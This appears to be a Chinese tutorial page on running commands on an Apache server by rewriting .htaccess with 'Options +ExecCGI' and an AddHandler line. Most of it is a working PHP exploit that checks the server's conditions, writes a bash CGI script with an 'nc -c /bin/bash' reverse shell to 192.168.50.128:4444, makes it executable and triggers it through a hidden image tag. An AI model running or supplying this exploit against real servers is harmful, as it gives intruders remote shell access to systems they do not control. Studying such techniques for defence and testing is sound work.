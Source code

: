 在apache的配置中，有一个非常重要的指令，Options，Options指令是Apache配置文件中一个比较常见也比较重要的指令，Options指令可以在Apache服务器核心配置(server config)、虚拟主机配置(virtual host)、特定目录配置(directory)以及.htaccess文件中使用

Options指令是Apache配置文件中一个比较常见也比较重要的指令，**Options**指令可以在Apache服务器核心配置(server config)、虚拟主机配置(virtual host)、特定目录配置(directory)以及.htaccess文件中使用, 允许使用**mod_cgi**模块执行CGI脚本那么用到的就是**ExecCGI**选项， **AddHandler**是指定扩展名和处理程序之间的关系，也就是说，可以指定某个特定的扩展名的文件，如何来进行处理

有了Options和AddHandler，我们就可以随便指定一个特定的文件扩展名以特定的程序来处理，这样思路就很清晰了：先把要执行的程序写入一个特定扩展名的文件里，然后修改.htaccess文件，通过Options指令允许使用mod_cgi模块执行CGI脚本，然后再让我们特定的扩展名以cgi-script进行处理，这样我们甚至可以反弹一个shell出来。 

#### EXP

```php
<?php
$cmd = "nc -c /bin/bash 192.168.50.128 4444"; //反弹一个shell出来，这里用本地的4444端口
$shellfile ="#!/bin/bash\n"; //指定shell
$shellfile .="echo -ne \"Content-Type: text/html\\n\\n\"\n"; //需要指定这个header，否则会返回500
$shellfile .="$cmd"; 
function checkEnabled($text,$condition,$yes,$no) //this surely can be shorter
{
    echo "$text: " . ($condition ?$yes : $no) . "<br>\n";
}
if(!isset($_GET['checked']))
{
    @file_put_contents('.htaccess',"\nSetEnv HTACCESS on", FILE_APPEND); 
    header('Location: ' . $_SERVER['PHP_SELF']. '?checked=true'); //执行环境的检查
}
else
{
    $modcgi = in_array('mod_cgi',apache_get_modules()); // 检测mod_cgi是否开启
    $writable = is_writable('.'); //检测当前目录是否可写
    $htaccess = !empty($_SERVER['HTACCESS']);//检测是否启用了.htaccess
        checkEnabled("Mod-Cgienabled",$modcgi,"Yes","No");
        checkEnabled("Iswritable",$writable,"Yes","No");
        checkEnabled("htaccessworking",$htaccess,"Yes","No");
    if(!($modcgi && $writable&& $htaccess))
    {
        echo "Error. All of the above mustbe true for the script to work!"; //必须满足所有条件
    }
    else
    {
       
 checkEnabled("Backing 
up.htaccess",copy(".htaccess",".htaccess.bak"),"Suceeded!Saved in 
.htaccess.bak","Failed!"); //备份一下原有.htaccess
        
checkEnabled("Write 
.htaccessfile",file_put_contents('.htaccess',"Options +ExecCGI\nAddHandler cgi-script .dizzle"),"Succeeded!","Failed!");//.dizzle，我们的特定扩展名
        checkEnabled("Write shellfile",file_put_contents('shell.dizzle',$shellfile),"Succeeded!","Failed!");//写入文件
        checkEnabled("Chmod777",chmod("shell.dizzle",0777),"Succeeded!","Failed!");//给权限
        echo "Executing the script now.Check your listener. <img src='shell.dizzle' style='display:none'>";
    }
}
?>
```
